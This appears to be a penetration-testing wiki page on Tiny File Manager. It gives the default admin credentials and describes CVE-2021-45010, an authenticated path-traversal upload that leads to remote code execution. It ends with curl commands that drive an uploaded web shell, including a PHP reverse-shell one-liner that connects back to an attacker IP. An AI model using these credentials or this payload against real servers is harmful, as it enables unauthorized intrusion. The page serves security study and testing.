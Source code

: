 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Tiny File Manager

[Tiny File Manager](https://github.com/prasathmani/tinyfilemanager) is a **single-file PHP application** that provides a web-based interface for browsing, uploading, editing, and managing files on a server. It includes built-in authentication, configurable directly in the script, and is often used for lightweight file management without requiring a full CMS or FTP setup. In Tiny File Manager, `index.php` **is the main config file** — it contains `$auth_users` array with bcrypt password hashes.

## Default Credentials

The [default credentials](https://tinyfilemanager.github.io/docs/#line3) are `admin:admin@123` and `user/12345`.

## Authenticated RCE

{% hint style="info" %}
Based on the [Tiny File Manager Authenticated RCE](https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/) blog post by FebinJ.
{% endhint %}

In Tiny File Manager versions up to `2.4.7`, an authenticated RCE vulnerability ([CVE-2021-45010](https://nvd.nist.gov/vuln/detail/CVE-2021-45010)) exists due to improper handling of the `fullpath` parameter during file uploads. Authenticated users can exploit this by appending directory traversal sequences (`../`) to the `fullpath` parameter, allowing them to upload files outside the designated upload directory specified in `config.php`. This enables the placement of malicious PHP files within the web root, leading to potential code execution on the server.

To determine the full web root path, attackers can trigger a path disclosure error by providing an invalid URL in the upload feature, which reveals the server's directory structure.&#x20;

<figure><img src="../../.gitbook/assets/tfm_webroot.png" alt=""><figcaption><p>Source: <a href="https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/">https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/</a></p></figcaption></figure>

Combining this information with the directory traversal vulnerability allows for the upload of a PHP web shell, facilitating RCE.

<figure><img src="../../.gitbook/assets/tfm_rce.png" alt=""><figcaption><p>Source: <a href="https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/">https://febin0x4e4a.wordpress.com/2022/01/23/tiny-file-manager-authenticated-rce/</a></p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# RCE
$ curl -s --path-as-is "http://spx/webshell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Revshell
$ curl -s --path-as-is "http://spx/webshell.php?cmd=php+-r+'\$sock%3dfsockopen(\"192.168.45.170\",80)%3bexec(\"/bin/sh+-i+<%263+>%263+2>%263\")%3b'"
```
{% endcode %}
